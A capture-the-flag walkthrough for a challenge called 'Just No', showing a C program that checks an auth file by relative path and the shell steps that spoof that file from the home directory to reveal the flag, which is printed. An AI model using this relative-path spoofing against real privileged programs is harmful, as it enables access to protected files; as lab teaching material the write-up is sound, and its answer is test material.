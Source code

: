 <h1>Just No</h1>
**A program at /problems/ec9da1496f80c8248197ba564097cebb has access to a flag but refuses to share it. Can you convince it otherwise?**

>Hints:
>
>Check out the difference between relative and absolute paths and see if you can figure out how to use them to solve this challenge. Could you possibly spoof another auth file it looks at instead...?

First of all, navigate to the problem directory. Here we have four files:

- auth
- flag
- justno
- justno.c

We cannot access the flag file at all, we can read auth and justno.c and execute justno. Executing just no gives us:

```
auth file says no. So no. Just... no.
```

Auth file is blocking us. Lets see what it says:

`cat auth` gives us `no`.

Since we cannot modify the auth file, we can take a look at the justno.c file:

```c 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv){ 
  //access auth file in ../../../problems/ec9da...7cebb
  FILE* authf = fopen("../../problems/ec9da...7cebb/auth","r");
  if(authf == NULL){
    printf("could not find auth file in ../../problems/ec9da...7cebb/\n");
    return 0;
  }
  char auth[8];
  fgets(auth,8,authf);
  fclose(authf);
  if(strcmp(auth,"no")!=0){
    FILE* flagf;
    flagf = fopen("/problems/ec9da...7cebb/flag","r");
    char flag[64];
    fgets(flag,64,flagf);
    printf("Oh. Well the auth file doesn't say no anymore so... " + 
    	"Here's the flag: %s",flag);
    fclose(flagf);
  }else{
    printf("auth file says no. So no. Just... no.\n");
  }
  return 0;
```

Looking at the source code, we can see that the auth and flag files are accessed in different ways despite being located in the same directory. What is interesting to us is that the auth file is accessed using a relative path. This means we can spoof it, provided we set up a similar directory structure.

Since we need to make our own auth file, we work from our home directory (this guarentees that we have the write privileges we require). Here we make two directories: problems and ec9da1496f80c8248197ba564097cebb to mimic the same structure expected in the justno executable.

```bash
#creates the directory structure:
#~/problems/ec9da1496f80c8248197ba564097cebb
mkdir problems
cd problems
mkdir ec9da1496f80c8248197ba564097cebb
cd ec9da1496f80c8248197ba564097cebb
```
Inside ec9da1496f80c8248197ba564097cebb directory we create our own auth file:

```bash
echo "yes" > auth
```

Next we run the justno executable from  our copy of the ec9da1496f80c8248197ba564097cebb directory. We can do this by:

```bash
#run justno located in the original ec9da1496f80c8248197ba564097cebb dir
/problems/ec9da1496f80c8248197ba564097cebb/justno
```

Doing so gives us the flag:

```
Oh. Well the auth file doesn't say no anymore so... Here's the flag: 
e4cec8fdf76a931b03ad7ef026103d43
```
